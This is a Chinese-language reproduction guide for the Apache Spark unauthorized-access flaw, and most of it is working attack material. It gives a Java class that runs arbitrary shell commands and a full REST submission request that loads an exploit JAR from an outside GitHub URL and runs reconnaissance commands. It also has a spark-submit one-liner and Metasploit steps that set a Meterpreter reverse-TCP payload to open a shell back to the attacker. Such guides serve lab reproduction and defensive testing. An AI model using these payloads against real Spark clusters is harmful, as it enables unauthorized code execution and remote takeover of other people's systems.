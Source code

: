 Apache Spark 未授权访问漏洞
===========================

一、漏洞简介
------------

Apache
Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

二、漏洞影响
------------

三、复现过程
------------

### 方法一

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

-   利用REST API
-   利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，

    import java.io.BufferedReader;
    import java.io.InputStreamReader;

    public class Exploit {
      public static void main(String[] args) throws Exception {
        String[] cmds = args[0].split(",");

        for (String cmd : cmds) {
          System.out.println(cmd);
          System.out.println(executeCommand(cmd.trim()));
          System.out.println("==============================================");
        }
      }

      // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
      private static String executeCommand(String command) {
        StringBuilder output = new StringBuilder();

        try {
          Process p = Runtime.getRuntime().exec(command);
          p.waitFor();
          BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

          String line;
          while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
          }
        } catch (Exception e) {
          e.printStackTrace();
        }

        return output.toString();
      }
    }

将其编译成JAR，放在任意一个HTTP或FTP上，如

`https://download.0-sec.org/Web安全/Apache Spark/Apache Spark 未授权访问漏洞.jar`。

#### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

    POST /v1/submissions/create HTTP/1.1
    Host: www.0-sec.org:6066
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Content-Type: application/json
    Connection: close
    Content-Length: 680

    {
      "action": "CreateSubmissionRequest",
      "clientSparkVersion": "2.3.1",
      "appArgs": [
        "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
      ],
      "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
      "environmentVariables": {
        "SPARK_ENV_LOADED": "1"
      },
      "mainClass": "Exploit",
      "sparkProperties": {
        "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
        "spark.driver.supervise": "false",
        "spark.app.name": "Exploit",
        "spark.eventLog.enabled": "true",
        "spark.submit.deployMode": "cluster",
        "spark.master": "spark://your-ip:6066"
      }
    }

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![1.png](resource/ApacheSpark未授权访问漏洞/media/rId26.png)

返回的包中有submissionId，然后访问`http://www.0-sec.org:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![2.png](resource/ApacheSpark未授权访问漏洞/media/rId27.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

#### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

    bin/spark-submit --master spark://www.0-sec.org:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest
api来提交应用；如果发现不是rest服务器，则会降级到使用submission
gateway来提交应用。

查看结果的方式与前面一致。

### 方法二

    msf5> use exploit/linux/http/spark_unauth_rce
    msf5> set payload java/meterpreter/reverse_tcp
    msf5> set rhost 被攻击ip
    msf5> set rport 6066
    msf5> set lhost 攻击ip
    msf5> set lport 4444
    msf5> set srvhost 1攻击ip
    msf5> set srvport 8080
    msf5> exploit

![1.png](resource/ApacheSpark未授权访问漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/spark/unacc/

